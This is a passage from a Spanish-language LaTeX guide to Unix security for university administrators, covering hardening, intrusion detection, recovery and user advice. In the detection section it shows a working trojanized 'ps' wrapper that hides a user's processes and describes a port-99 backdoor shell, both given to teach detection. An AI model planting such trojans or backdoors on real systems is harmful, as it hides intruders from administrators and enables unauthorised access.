root   215     1  0 01:00:38 ?        0:00 /usr/lib/sendmail -bd -q15m
anita:/# kill -9 215
\end{verbatim}
\end{quote}
\rm
\item Instalaci\'on de {\it wrappers}\\
A pesar de haber cerrado muchos servicios siguiendo los puntos anteriores, 
existen algunos que no podremos dejar de ofrecer, como {\tt telnet} o {\tt
ftp}, ya que los usuarios van a necesitar conectar al sistema de forma remota o
transferir ficheros. En estos casos es muy conveniente instalar {\it wrappers} 
para los demonios que sigan recibiendo conexiones; mediante el uso de estos
programas vamos a poder restringir los lugares desde los que nuestro equipo
va a aceptar peticiones de servicio. {\bf Especialmente recomendable} es el 
programa {\it TCP-Wrapper} para controlar las conexiones servidas por {\tt 
inetd} (incluso {\tt sendmail} se puede controlar por {\tt inetd}, lo cual es 
muy \'util si queremos restringir los lugares desde los que nos pueda llegar 
correo).\\
Por ejemplo, si no utilizamos {\it wrappers} para controlar el servicio de {\tt
telnet}, cualquier m\'aquina de Internet puede intentar el acceso a nuestro
sistema:
\tt
\begin{quote}
\begin{verbatim}
luisa:~$ telnet anita
Trying 192.168.0.3...
Connected to anita.
Escape character is '^]'.

SunOS 5.7

login:
\end{verbatim}
\end{quote}
\rm
Sin embargo, configurando {\it TCP-Wrapper} para que no admita conexiones desde 
fuera de la universidad, si alguien intenta lo mismo obtendr\'a un resultado
similar al siguiente:
\tt
\begin{quote}
\begin{verbatim}
luisa:~$ telnet anita
Trying 192.168.0.3...
Connected to anita.
Escape character is '^]'.
Connection closed by foreign host.
luisa:~$
\end{verbatim}
\end{quote}
\rm
De esta forma, incluso si el atacante conociera un nombre de usuario y su clave
le ser\'{\i}a m\'as dif\'{\i}cil acceder a nuestro equipo por {\it telnet}.
\item Ficheros setuidados y setgidados\\
En un sistema Unix reci\'en instalado podemos tener incluso m\'as de cincuenta
ficheros con los modos {\it setuid} o {\it setgid} activados; cualquiera de
estos programas representa un potencial agujero a la seguridad de nuestro 
sistema, y aunque muchos son necesarios (como {\tt /bin/passwd} en la 
mayor\'{\i}a de situaciones), de otros se puede prescindir. Para localizar los
ficheros setuidados podemos utilizar la orden
\tt
\begin{quote}
\begin{verbatim}
anita:/# find / -perm -4000 -type f -print
\end{verbatim}
\end{quote}
\rm
mientras que para localizar los setgidados podemos utilizar 
\tt
\begin{quote}
\begin{verbatim}
anita:/# find / -perm -2000 -type f -print
\end{verbatim}
\end{quote}
\rm
Es conveniente que reduzcamos al m\'{\i}nimo el n\'umero de estos archivos, pero
tampoco se recomienda borrarlos del sistema de ficheros; es mucho m\'as habitual
resetear el bit de {\it setuid} o {\it setgid}, y en caso de que sea necesario
volverlo a activar. Para desactivar estos bits podemos usar la orden {\tt
chmod -s}, mientras que para activarlos utilizaremos {\tt chmod u+s} o {\tt 
chmod g+s}.\\
Por ejemplo, si el fichero {\tt /usr/lib/fs/ufs/ufsdump} est\'a {\it setuidado},
un listado largo del mismo nos mostrar\'a una {\tt s} en el campo de ejecuci\'on
para propietario, mientras que si est\'a {\it setgidado} aparecer\'a una {\tt
s} en el campo de ejecuci\'on para grupo; podemos resetear los dos bits con
la orden vista anteriormente:
\tt
\begin{quote}
\begin{verbatim}
anita:/# ls -l /usr/lib/fs/ufs/ufsdump
-r-sr-sr-x  1 root  tty   144608 Oct 6 1998 /usr/lib/fs/ufs/ufsdump
anita:/# chmod -s /usr/lib/fs/ufs/ufsdump
anita:/# ls -l /usr/lib/fs/ufs/ufsdump
-r-xr-xr-x  1 root  tty   144608 Oct 6 1998 /usr/lib/fs/ufs/ufsdump
\end{verbatim}
\end{quote}
\rm
\item Cifrado de datos\\
El principal problema de las claves viajando en texto claro por la red es que
cualquier atacante puede leerlas: si usamos {\tt telnet}, {\tt rlogin} o {\tt
ftp}, cualquier persona situada entre nuestra estaci\'on de trabajo y el 
servidor al que conectamos puede `esnifar' los paquetes que circulan por la 
red y obtener as\'{\i} nuestro nombre de usuario y nuestro {\it password}.
Para evitar este problema es conveniente utilizar {\it software} que implemente
protocolos cifrados para conectar; el m\'as habitual hoy en d\'{\i}a es {\sc
ssh} ({\it Secure Shell}). Por una parte, tenemos el programa servidor {\tt 
sshd}, que se ha de instalar en el equipo al que conectamos, y por otra 
programas clientes ({\tt ssh} para sustituir a {\tt rsh/rlogin} y {\tt scp} 
para sustituir a {\tt rcp}).\\
Una vez instalado, este software es transparente al usuario: simplemente 
ha de recordar su clave, igual que si conectara por {\tt telnet} o {\tt rlogin}.
\item Relaciones de confianza\\
En el fichero {\tt /etc/hosts.equiv} se indican, una en cada l\'{\i}nea, las 
m\'aquinas confiables.
>Qu\'e significa {\it confiables}? B\'asicamente que confiamos en su seguridad
tanto como en la nuestra, por lo que para facilitar la compartici\'on de
recursos, no se van a pedir contrase\~nas a los usuarios que quieran conectar
desde estas m\'aquinas con el mismo {\it login}, utilizando las \'ordenes
{\sc bsd} {\tt r$\ast$} ({\tt rlogin, rsh, rcp}\ldots). Por ejemplo, si en el
fichero {\tt /etc/hosts.equiv} del servidor {\tt anita} hay una entrada
para el nombre
de {\it host} {\tt luisa}, cualquier usuario\footnote{Excepto el {\it
root}.} de este sistema puede ejecutar una orden como la siguiente para
conectar a {\tt anita} {\bf <sin necesidad de ninguna clave!}:
\tt
\begin{quote}
\begin{verbatim}
luisa:~$ rlogin anita
Last login: Sun Oct 31 08:27:54 from localhost
Sun Microsystems Inc.   SunOS 5.7       Generic October 1998
anita:~$
\end{verbatim}
\end{quote}
\rm
Obviamente, esto supone un gran problema de seguridad, por lo que lo m\'as
recomendable es que el fichero {\tt /etc/hosts.equiv} est\'e vac\'{\i}o o no
exista. De la misma forma, los usuarios pueden crear ficheros {\tt
\$HOME/.rhosts} para establecer un mecanismo de confiabilidad bastante similar
al de {\tt /etc/hosts.equiv}; es importante para la seguridad de nuestro
sistema el controlar la existencia y el contenido de estos archivos {\tt
.rhosts}. Por ejemplo, podemos aprovechar las facilidades de planificaci\'on de
tareas de Unix para, cada cierto tiempo, chequear los directorios {\tt \$HOME}
de los usuarios en busca de estos ficheros, elimin\'andolos si los
encontramos. Un {\it shellscript} que hace esto puede ser el siguiente:
\tt
\begin{quote}
\begin{verbatim}
#!/bin/sh
for i in `cat /etc/passwd |awk -F: '{print $6}'`; do
    cd $i
    if [ -f .rhosts ]; then
        echo "$i/.rhosts detectado"|mail -s "rhosts" root
        rm -f $i/.rhosts
    fi
done
\end{verbatim}
\end{quote}
\rm
Este programa env\'{\i}a un correo al {\it root} en caso de encontrar un
fichero {\tt .rhosts}, y lo elimina; podemos planificarlo mediante {\tt cron}
para que se ejecute, por ejemplo, cada cinco minutos. La forma de planificarlo
depende del clon de Unix en el que trabajemos, por lo que se recomienda
consultar la p\'agina del manual de {\tt cron} o {\tt crond}; en el caso de
Solaris, para que se ejecute cada vez que {\tt cron} despierte, y suponiendo
que el {\it script} se llame {\tt /usr/local/sbin/busca}, pondr\'{\i}amos
en nuestro {\it crontab} (con {\tt crontab -e}) una l\'{\i}nea como
\tt
\begin{quote}
\begin{verbatim}
* * * * *      /usr/local/sbin/busca 2>&1 >/dev/null
\end{verbatim}
\end{quote}
\rm
Hemos de estar atentos a la carga que este tipo de actividades peri\'odicas 
puede introducir en el sistema; la orden anterior se va a ejecutar cada vez
que {\tt cron} despierta, generalmente una vez por minuto, lo que implica que
en m\'aquinas con un gran n\'umero de usuarios puede introducir un factor 
importante de operaciones de I/O. Una soluci\'on m\'as adecuada en estas 
situaciones ser\'{\i}a planificar el programa para que se ejecute cada cinco o
diez minutos, o el tiempo que estimemos necesario en nuestro equipo. 
\item Pol\'{\i}tica de cuentas\\
Muchos clones de Unix se instalan con cuentas consideradas `del sistema', es
decir, que no corresponden a ning\'un usuario concreto sino que existen por
cuestiones de compatibilidad o para la correcta ejecuci\'on de algunos 
programas. Algunas de estas cuentas no tienen contrase\~na, o tienen una
conocida por todo el mundo, por lo que representan una grave amenaza a la 
seguridad: hemos de deshabilitarlas para evitar que alguien pueda conectar
a nuestro equipo mediante ellas. Algunos ejemplos de este tipo de cuentas
son {\tt guest}, {\tt demo}, {\tt uucp}, {\tt games}, {\tt 4DGifts} o {\tt 
lp}.\\
Para deshabilitar una cuenta, en Unix no tenemos m\'as que insertar un asterisco
en el campo {\it passwd} en la l\'{\i}nea correspondiente del fichero de claves 
(generalmente {\tt /etc/passwd} o\\ {\tt /etc/shadow}). De esta forma, una 
entrada como 
\tt
\begin{quote}
\begin{verbatim}
toni:7atzxSJlPVVaQ:1001:10:Toni Villalon:/export/home/toni:/bin/sh
\end{verbatim}
\end{quote}
\rm
pasar\'{\i}a a convertirse en 
\tt
\begin{quote}
\begin{verbatim}
toni:*7atzxSJlPVVaQ:1001:10:Toni Villalon:/export/home/toni:/bin/sh
\end{verbatim}
\end{quote}
\rm
Aparte de este tipo de cuentas, hemos de tener un especial cuidado con las 
cuentas de usuario que no tienen contrase\~na o que tienen una clave d\'ebil;
para detectar este \'ultimo problema podemos utilizar programas adivinadores 
como {\it Crack}, mientras que para evitarlo podemos utilizar {\it NPasswd} o
{\it Passwd+}, adem\'as de sistemas {\it Shadow Password} para que los usuarios
no puedan leer las claves cifradas. Para detectar cuentas sin contrase\~na 
(aunque tambi\'en {\it Crack} nos
las indicar\'a), podemos utilizar la siguiente orden, obviamente sustituyendo
{\tt /etc/passwd} por el fichero de claves de nuestro sistema:
\tt
\begin{quote}
\begin{verbatim}
anita:~# awk -F: '$2=="" {print $1}' /etc/passwd
\end{verbatim}
\end{quote}
\rm
Por \'ultimo, hay que decir que una correcta pol\'{\i}tica de cuentas pasa por
deshabilitar la entrada de usuarios que no utilicen el sistema en un tiempo
prudencial; por ejemplo, podemos cancelar las cuentas de usuarios que no 
hayan conectado a la m\'aquina en los \'ultimos dos meses, ya que son firmes
candidatas a que un pirata las aproveche para atacarnos; la orden {\tt finger}
nos puede ayudar a detectar este tipo de usuarios.
\item Negaciones de servicio\\
Un tipo de ataque que ni siquiera suele necesitar de un acceso al sistema es el
conocido como la negaci\'on de servicio ({\it Denial of Service}). Consiste 
b\'asicamente en perjudicar total o parcialmente la disponibilidad de un 
recurso, por ejemplo utilizando grandes cantidades de CPU, ocupando toda la 
memoria del sistema o incluso deteniendo una m\'aquina. Obviamente las 
negaciones de servicio m\'as peligrosas son las que detienen el sistema o 
alguno de sus servicios de forma remota:\\
Las paradas de m\'aquina
son, por norma general, fruto de un fallo en la implementaci\'on de red del 
n\'ucleo: por ejemplo, la llegada de un paquete con una cabecera extra\~na, de
una longitud determinada, o con una cierta prioridad, puede llegar a detener la
m\'aquina si ese paquete no se trata correctamente en la implementaci\'on del
sistema de red. La mejor forma de prevenir estos ataques (que no suelen dejar
ning\'un rastro en los ficheros de {\it log}) es actualizar el n\'ucleo de 
nuestro Unix peri\'odicamente, manteniendo siempre la \'ultima versi\'on 
estable.\\
En el caso de la detenci\'on de servicios determinados, habitualmente los 
ofrecidos desde {\tt inetd}, la negaci\'on de servicio suele ser fruto de un 
excesivo n\'umero de peticiones `falsas' al demonio correspondiente; por 
ejemplo, un atacante enmascara su direcci\'on IP para sobrecargar de peticiones
un demonio como {\tt in.telnetd} hasta detenerlo. Para evitar estos ataques 
podemos incrementar el n\'umero de peticiones simult\'aneas que un demonio 
acepta (en la opci\'on {\tt wait} de la l\'{\i}nea correspondiente en el 
fichero {\tt /etc/inetd.conf}), aunque esto tambi\'en implica peligros de 
negaci\'on de servicio (puede aumentar demasiado el tiempo de respuesta del
equipo); una forma mucho m\'as recomendable de actuar no es prevenir estos 
ataques sino minimizar sus efectos: si enviamos una se\~nal {\sc sighup} al
demonio {\tt inetd} \'este relee su configuraci\'on, por lo que el servicio
bloqueado vuelve a funcionar\footnote{Obviamente, las conexiones ya 
establecidas no se pierden.}. Por tanto, es recomendable enviar una de estas
se\~nales de forma autom\'atica cada cierto tiempo; podemos planificar esta
acci\'on para que {\tt cron} la ejecute cada vez que despierte, incluyendo en
nuestro archivo {\it crontab} una l\'{\i}nea como la siguiente:
\tt
\begin{quote}
\begin{verbatim}
* * * * *        /usr/bin/pkill -HUP inetd 2>&1 >/dev/null
\end{verbatim}
\end{quote}
\rm
\end{itemize}
\section{Detecci\'on}
La mayor\'{\i}a de problemas de seguridad en sistemas de I+D implican accesos
no autorizados, bien por usuarios externos a la m\'aquina o bien por usuarios
internos que consiguen un privilegio mayor del que tienen asignado.
>C\'omo detectar estos problemas? Hacer esto puede ser algo muy complicado si 
el atacante es un pirata con cierta experiencia y no hemos tomado algunas 
medidas en nuestro sistema antes de que el ataque se produzca. Aqu\'{\i} se 
presentan unos mecanismos que pueden indicar que alguien ha accedido 
ilegalmente a nuestro equipo.
\begin{itemize}
\item Logs\\
Casi cualquier actividad dentro del sistema es susceptible de ser monitorizada
en mayor o menor medida. Unix ofrece un estupendo sistema de {\it logs} que
guarda informaci\'on en ficheros contenidos generalmente en {\tt /var/adm/}, 
{\tt /var/log/} o {\tt /usr/adm/}; esta informaci\'on var\'{\i}a desde los 
usuarios que han conectado al sistema \'ultimamente hasta los mensajes de error
del n\'ucleo, y puede ser consultada con \'ordenes como {\tt who} o {\tt last},
o con un simple editor de textos.\\
Aunque un atacante que consiga privilegios de {\tt root} en el equipo puede
modificar (<o borrar!) estos archivos\footnote{O cualquier usuario con permiso 
de escritura en ellos; los usuarios ni siquiera han de tener permiso de lectura 
en la 
mayor\'{\i}a de los ficheros de {\it log}.}, los {\it logs} son con frecuencia 
el primer indicador de un acceso no autorizado o de un intento del mismo. 
Dependiendo de nuestra configuraci\'on ({\tt /etc/syslog.conf}), pero 
generalmente en los archivos {\tt messages} o {\tt syslog}, podemos ver mensajes
que pueden indicar un ataque al sistema; a continuaci\'on se presentan algunos
de ellos:
\begin{itemize}
\item \tt
\small{Nov 12 05:35:42 anita in.telnetd[516]: refused connect from bg.microsoft.com}\\
\rm
\normalsize
Este mensaje (conexi\'on rehusada a un servicio) en sistemas con {\it 
TCP-Wrappers} instalado indica que alguien ha intentado conectar a nuestro 
equipo desde una m\'aquina no autorizada a hacerlo.
\item \tt
\small{Nov  7 23:06:22 anita in.telnetd[2557]: connect from localhost}\\
\rm
\normalsize
Alguien ha conectado con \'exito a nuestro equipo desde una determinada 
m\'aquina; no implica que haya accedido con una nombre de usuario y su 
contrase\~na, simplemente que ha tenido posibilidad de hacerlo.
\item \tt
\small{SU 11/17 03:12 - pts/3 toni-root}\\
\rm
\normalsize
El usuario {\tt toni} ha intentado conseguir privilegios de administrador 
mediante la orden {\tt su}; si lo hubiera conseguido, en lugar de un signo 
{\tt `-'} aparecer\'{\i}a un {\tt `+'}. En Solaris, esto se registra en el
fichero {\tt sulog}, aunque en el fichero {\tt messages} se notifica si el 
{\tt su} ha fallado.   
\end{itemize}
\item Procesos\\
Si un atacante ha conseguido acceso a nuestro equipo, y dependiendo de sus
intenciones, es probable que ejecute programas en el sistema que permanecen
en la tabla de procesos durante un largo periodo de tiempo; t\'{\i}picos 
ejemplos son {\it sniffers} (programas para capturar tr\'afico de red) o {\it 
bouncers} (programas para ocultar una direcci\'on en {\sc irc}). Debemos 
desconfiar de procesos que presenten un tiempo de ejecuci\'on elevado, 
especialmente si no es lo habitual en nuestro sistema. Incluso si el nombre
del proceso no es nada extra\~no (obviamente un pirata no va a llamar a su
analizador de tr\'afico {\tt sniffer}, sino que le dar\'a un nombre que no 
levante sospechas, como {\tt xzip} o {\tt ltelnet}) es muy conveniente que
nos preocupemos de comprobar cu\'al es el programa que se est\'a ejecutando.\\
Algo que nos puede ayudar mucho en esta tarea es la herramienta de seguridad
{\tt lsof}, que nos indica los ficheros abiertos por cada proceso de nuestro
sistema, ya que programas como los {\it sniffers} o los {\it crackers} de claves
suelen mantener archivos abiertos para almacenar la informaci\'on generada.
\item Sistemas de ficheros\\
Otro punto que puede denotar actividades sospechosas en la m\'aquina es su
sistema de ficheros:\\ 
Por un lado, hemos de estar atentos al n\'umero de archivos
setuidados en el sistema: es frecuente que un pirata que ha conseguido 
privilegios de {\it root} guarde archivos con este bit activo para volver a
conseguir esos privilegios de una forma m\'as sencilla (por ejemplo, una copia
de un {\it shell} setuidado como {\tt root} dar\'a privilegios de administrador
a cualquiera que lo ejecute).\\
Adem\'as, los intrusos suelen crear directorios `dif\'{\i}ciles' de localizar,
donde poder guardar herramientas de ataque: por ejemplo, si alguien es capaz
de crear el directorio {\tt /dev/.../}, seguramente cuando el administrador
haga un listado de {\tt /dev/} ni se dar\'a cuenta de la existencia de un
directorio con un nombre tan poco com\'un como {\tt `...'}.\\
Otra actividad relacionada con el sistema de ficheros es la sustituci\'on de
ciertos programas que puedan delatar una presencia extra\~na, como {\tt ps},
{\tt who} o {\tt last}, o programas cr\'{\i}ticos como {\tt /bin/login} por
versiones `troyanizadas' que no muestren nada relacionado con el atacante; por
ejemplo, alguien podr\'{\i}a sustituir el programa {\tt /bin/login} por otro
que aparentemente se comporte igual, pero que al recibir un nombre de usuario
concreto otorgue acceso al sistema sin necesidad de clave. Un ejemplo muy 
simple de este tipo de troyanos es el siguiente: alguien mueve el archivo 
{\tt /bin/ps} a {\tt /bin/OLDps} y a continuaci\'on ejecuta
\tt
\begin{quote}
\begin{verbatim}
anita:~# cat >/bin/ps
#!/bin/sh
/bin/OLDps $1|grep -v '^    toni'|grep -v grep|grep -v OLD
^D
anita:~#
\end{verbatim}
\end{quote}
\rm
A partir de ahora, cuando alguien teclee {\tt ps -ef} no ver\'a los procesos
del usuario {\tt toni}. Se puede seguir un mecanismo similar\footnote{Realmente
el mecanismo suele ser m\'as elaborado; aqu\'{\i} se ha utilizado una forma 
muy simple de ocultaci\'on \'unicamente a modo de ejemplo.} con programas como 
{\tt w}, {\tt finger}, {\tt last}, {\tt who} o {\tt ls} para conseguir ocultar
a un usuario conectado, sus procesos, sus ficheros\ldots\\ 
Otro s\'{\i}ntoma que denota la presencia de un problema de seguridad puede
ser la modificaci\'on de ciertos ficheros importantes del sistema; por ejemplo,
un atacante puede modificar {\tt /etc/syslog.conf} para que no se registren
ciertos mensajes en los archivos de {\it log}, o {\tt /etc/exports} para 
exportar directorios de nuestro equipo. El problema de este estilo m\'as 
frecuente es la generaci\'on de nuevas entradas en el fichero de claves con 
{\sc uid} 0 (lo que implica un total privilegio); para detectar este tipo de
entradas, se puede utilizar la siguiente orden: 
\tt
\begin{quote}
\begin{verbatim}
anita:~# awk -F: '$3=="0" {print $1}' /etc/passwd
root
anita:~#
\end{verbatim}
\end{quote}
\rm
Obviamente, si como salida de la orden anterior obtenemos alg\'un otro nombre
de usuario, aparte del {\it root}, ser\'{\i}a conveniente cancelar la cuenta
de ese usuario e investigar por qu\'e aparece con {\sc uid} 0.\\
Detectar este tipo de problemas con el sistema de ficheros de nuestro equipo 
puede ser una tarea complicada; la soluci\'on m\'as r\'apida pasa por instalar
{\it Tripwire}, comentado en este mismo punto.
\item Directorios de usuarios\label{userdir}\\
Dentro del sistema de ficheros existen unos directorios especialmente 
conflictivos: se trata de los {\tt \$HOME} de los usuarios. La conflictividad
de estos directorios radica principalmente en que es la zona m\'as importante 
del sistema de archivos donde los usuarios van a tener permiso de escritura,
por lo que su control (por ejemplo, utilizando {\it Tripwire}) es a priori 
m\'as dif\'{\i}cil que el de directorios cuyo contenido no cambie tan 
frecuentemente. Algunos elementos dentro de estos directorios que pueden 
denotar una intrusi\'on son los siguientes:
\begin{itemize}
\item Hemos de chequear el grupo y propietario de cada archivo para comprobar
que no pertenecen a usuarios privilegiados en lugar de a usuarios normales, o a 
grupos especiales en lugar de a grupos gen\'ericos ({\tt users}, {\tt 
staff}\ldots).  Por ejemplo, si el padre de los directorios de usuario es {\tt 
/export/home/}, podemos buscar dentro de \'el ficheros que pertenezcan al 
administrador con la orden
\tt
\begin{quote}
\begin{verbatim}
anita:~# find /export/home/ -user root -type f -print
\end{verbatim}
\end{quote}
\rm
\item >Hay archivos setuidados o setgidados en los directorios de usuario? No
deber\'{\i}a, por lo que su existencia es algo bastante sospechoso\ldots
\item La existencia de c\'odigo fuente, generalmente C, de {\it exploits}
(programas que aprovechan un fallo de seguridad en el {\it software} para
utilizarlo en beneficio del atacante) puede ser
indicativo de una contrase\~na robada, o de un usuario intentando conseguir
un privilegio mayor en el sistema. >C\'omo saber si un c\'odigo es un {\it
exploit} o una pr\'actica de un alumno? La respuesta es obvia: ley\'endolo.
>Y si se trata de ficheros ejecutables en lugar de c\'odigo fuente? {\tt man
strings}.
\end{itemize}
\item El sistema de red\\
Estar atentos al sistema de red de nuestro equipo tambi\'en nos puede 
proporcionar indicios de accesos no autorizados o de otro tipo de ataques contra
el sistema. Por ejemplo, si utilizamos {\tt netstat} para comprobar las 
conexiones activas, y detectamos una entrada similar a
\tt\small
\begin{quote}
\begin{verbatim}
anita.telnet         luisa.2039           16060      0 10136      0 ESTABLISHED
\end{verbatim}
\end{quote}
\rm\normalsize
esto indica que desde el {\it host} {\it luisa} alguien est\'a conectado a
nuestro sistema mediante {\it telnet}; puede haber accedido o no (si ha tecleado
un nombre de usuario y la contrase\~na correcta), pero el hecho es que la
conexi\'on est\'a establecida.\\
Otro m\'etodo muy seguido por los piratas es asegurar la reentrada al sistema
en caso de ser descubiertos, por ejemplo instalando un programa que espere 
conexiones en un cierto puerto y que proporcione un {\it shell} sin necesidad 
de {\it login} y {\it password} (o con los mismos predeterminados); por 
ejemplo, si el programa espera peticiones
en el puerto 99, el atacante puede acceder al sistema con un simple {\it 
telnet}:
\tt
\begin{quote}
\begin{verbatim}
luisa:~# telnet anita 99
Trying 192.168.0.3...
Connected to anita.
Escape character is '^]'.
Sun Microsystems Inc.   SunOS 5.7       Generic October 1998
anita:~#
\end{verbatim}
\end{quote}
\rm
Podemos detectar los puertos que esperan una conexi\'on en nuestro sistema
tambi\'en con la orden {\tt netstat}:
\tt
\small
\begin{quote}
\begin{verbatim}
anita:~# netstat -P tcp -f inet -a|grep LISTEN
      *.sunrpc             *.*                0      0     0      0 LISTEN
      *.32771              *.*                0      0     0      0 LISTEN
      *.ftp                *.*                0      0     0      0 LISTEN
      *.telnet             *.*                0      0     0      0 LISTEN
      *.finger             *.*                0      0     0      0 LISTEN
      *.dtspc              *.*                0      0     0      0 LISTEN
      *.lockd              *.*                0      0     0      0 LISTEN
      *.smtp               *.*                0      0     0      0 LISTEN
      *.8888               *.*                0      0     0      0 LISTEN
      *.32772              *.*                0      0     0      0 LISTEN
      *.32773              *.*                0      0     0      0 LISTEN
      *.32774              *.*                0      0     0      0 LISTEN
      *.printer            *.*                0      0     0      0 LISTEN
      *.listen             *.*                0      0     0      0 LISTEN
      *.6000               *.*                0      0     0      0 LISTEN
      *.32775              *.*                0      0     0      0 LISTEN
anita:~#
\end{verbatim}
\end{quote}
\rm
\normalsize
\item Tripwire\\
Quiz\'as una de las formas m\'as efectivas de detectar accesos no autorizados 
es mediante el programa {\it Tripwire}. La idea es sencilla: en un sistema 
`limpio' (por ejemplo, reci\'en instalado, antes de ser conectado a red) se 
aplica una funci\'on de resumen ({\it message digest}) sobre los ficheros 
importantes del equipo, (por ejemplo, ficheros en {\tt /etc/}, {\tt /bin/} o 
{\tt /sbin/}). Los resultados de este proceso se almacenan en un medio que a 
partir de ese momento ser\'a de s\'olo lectura, como un disco flexible 
protegido contra escritura o un CD-ROM, y peri\'odicamente volvemos a aplicar 
el resumen sobre los ficheros de nuestro equipo; si se detecta un cambio (por
ejemplo, una variaci\'on en el tama\~no, un cambio de propietario, la
desaparici\'on de un archivo\ldots), {\it Tripwire} nos lo va a indicar. Si no 
lo hemos realizado nosotros, como administradores, es posible (muy posible) que 
ese fichero haya sido modificado en beneficio propio por un intruso.
\end{itemize}
\section{Recuperaci\'on}
>Qu\'e hacer cuando se detecta una intrusi\'on en la m\'aquina? Muchos 
administradores se hacen esta pregunta cuando se dan cuenta de que su seguridad
ha sido quebrada. Por supuesto, en esta situaci\'on se pueden hacer muchas 
cosas, desde ignorar el hecho y dejar que el pirata haga lo que quiera en 
nuestro sistema (obviamente, esto no es recomendable) hasta intentar localizar
al intruso mediante denuncia y orden judicial para tracear la llamada; esto
tampoco es habitual, ya que es muy dif\'{\i}cil demostrar ante un juez que un 
atacante ha violado nuestra seguridad, por lo que s\'olo vamos a perder tiempo
y dinero. Lo habitual en entornos universitarios es intentar detectar si el
atacante pertenece a la comunidad universitaria (en cuyo caso se le puede 
sancionar), restaurar la integridad del equipo de forma que un ataque similar 
no vuelva a tener \'exito, y poner de nuevo la m\'aquina a trabajar (recordemos
que la disponibilidad suele ser lo m\'as importante en organizaciones de I+D). 
Pero, hagamos lo que hagamos, hay que cumplir una norma b\'asica: {\bf no 
ponernos nerviosos}; si no logramos mantener la calma podemos ser incluso m\'as
perjudiciales para el sistema que el propio intruso o podemos poner a \'este
nervioso, lo que puede convertir un simple fisgoneo en una p\'erdida 
irrecuperable de datos.\\
\\Desde el punto de vista de Unix, es posible que nos interese localizar el 
fallo de seguridad a\-pro\-ve\-cha\-do por el pirata para cerrarlo y que el problema
no vuelva a ocurrir; sin entrar en temas complejos como el {\it jailing} o la
simulaci\'on, una de las formas que tenemos para realizar esta tarea es 
mo\-ni\-to\-ri\-zar las actividades del intruso, incluso arriesgando la integridad del
sistema (podemos hacer una copia de seguridad por lo que pueda pasar). Para 
realizar esto, hemos de ser conscientes de que si alguien ha conseguido 
privilegios de administrador en la m\'aquina, puede haber modificado desde los
programas del sistema hasta las librer\'{\i}as din\'amicas, pasando incluso por
el subsistema de {\it accounting} de procesos. Por tanto, hemos de desconfiar
de los resultados que cualquier orden nos proporcione, ya que el intruso puede
haberlos modificado para ocultar sus actividades. Si queremos auditar las
actividades del atacante hemos de utilizar programas `nuevos', a ser posible
compilados est\'aticamente (sin dependencia de librer\'{\i}as din\'amicas): 
podemos utilizar versiones de c\'odigo fuente disponible para adecuarlas a 
nuestro sistema, compilarlas est\'aticamente en un sistema similar al atacado\footnote{El pirata tambi\'en puede haber modificado el compilador.},
y utilizarlas en la m\'aquina donde est\'a el intruso.\\
\\El proceso de modificar librer\'{\i}as din\'amicas habitualmente excede los 
conocimientos del atacante medio de entornos I+D; como adem\'as conseguir
programas est\'aticos para nuestro equipo suele
ser complejo y lento en la mayor\'{\i}a de situaciones, y un objetivo b\'asico
es devolver el sistema a su funcionamiento normal cuanto antes, lo habitual no
es utilizar programas compilados de forma est\'atica sino confiar en que el
intruso no haya modificado librer\'{\i}as din\'amicas y utilizar versiones
`limpias' de programas din\'amicos; por ejemplo, podemos utilizar los programas
originales del sistema operativo que se encuentran en el CD-ROM de instalaci\'on
del mismo.\\
\\Si en lugar de intentar monitorizar las actividades del intruso en el sistema
lo \'unico que queremos es echarlo de nuestra m\'aquina (esto tiene su parte
positiva, pero tambi\'en su parte negativa), hemos de tener siempre presente
que desconocemos lo que ha hecho; la forma m\'as efectiva de tirarlo de nuestro
equipo es desconectando el cable de red (mucho mejor que utilizar {\tt ifconfig}
para detener la tarjeta o {\tt shutdown} para parar el sistema, ya que el
atacante puede haber contaminado estos programas para que realicen una actividad
diferente a la que en teor\'{\i}a est\'an destinados). Pero no nos podemos 
limitar \'unicamente a desconectar el cable de red: el atacante puede tener
procesos activos en el sistema, bombas l\'ogicas, o simplemente tareas 
destructivas planificadas con {\tt at} o {\tt cron}; hemos de chequear todo
el sistema en busca de este tipo de amenazas. Un lugar interesante donde
el intruso nos puede causar un problema grave es en los ficheros de 
inicializaci\'on de la m\'aquina, situados generalmente en {\tt /etc/rc?.d/}
o {\tt /etc/rc.d/}.\\ 
\\Una vez detectado y solucionado el problema de seguridad hemos de restaurar
un estado fiable de la m\'aquina, esto es, un estado similar al que ten\'{\i}a
antes de ser atacada. Aunque en muchos lugares se indica restaurar una copia de
seguridad anterior al ataque, esto presenta graves problemas: realmente no
sabemos con certeza cuando se produjo el ataque al sistema, sino que en todo
caso sabemos cu\'ando se detect\'o el mismo, por lo que corremos el peligro de
utilizar una copia de seguridad que ya est\'e contaminada por el atacante. Es
mucho m\'as seguro reinstalar el sistema completo y actualizarlo para solucionar
los fallos que posibilitaron la entrada del intruso, por ejemplo aplicando 
{\it patches} sobre la versi\'on que hemos instalado.\\
\\Restaurar y actualizar el sistema operativo y sus programas puede ser una
tarea pesada, pero no implica ninguna complicaci\'on: con toda probabilidad 
tenemos a nuestra disposici\'on los CD-ROMs con el {\it software} que hemos
de instalar; los problemas reales 
surgen con los archivos de los usuarios: evidentemente, no podemos decirles que
para evitar posibles conflictos de seguridad se les han borrado sus archivos, 
sino que lo habitual va a ser mantener el estado de sus ficheros justo como
estaban durante el ataque o, en caso de que este haya eliminado o corrompido
informaci\'on, tal y como estaban exactamente antes del ataque. Por tanto, 
especialmente si mantenemos el estado de los ficheros de usuario, hay que
estar atentos a posibles problemas que estos puedan introducir en el sistema,
comentados en el apartado \ref{userdir}.\\
\section{Recomendaciones de seguridad para los usuarios}
Con frecuencia la parte m\'as complicada de una pol\'{\i}tica de seguridad es
concienciar a los usuarios de la necesidad de medidas b\'asicas de prevenci\'on
contra ataques. Demasiados usuarios opinan que las historias de {\it crackers}
que atacan ordenadores s\'olo suceden en las pel\'{\i}culas o en organizaciones
militares de alta seguridad; nada m\'as lejos de la realidad: en cualquier
universidad ocurren a diario incidentes de seguridad, de los que s\'olo una
peque\~na parte se detecta (y muchos menos se solucionan). Ser\'{\i}a pues
muy recomendable para el administrador imprimir una hoja con las medidas de 
seguridad b\'asicas o la pol\'{\i}tica del sistema, y entregar una copia a 
cada usuario al crear su cuenta.
\begin{itemize}
\item Contrase\~nas aceptables\\
Es conveniente que los usuarios elijan claves medianamente resistentes a ataques
de diccionario; una contrase\~na como {\tt patata} o {\tt valencia} es un 
gran agujero de seguridad para la m\'aquina, aunque el usuario que la usa no 
tenga ning\'un privilegio especial. Hemos de ver la seguridad como una cadena
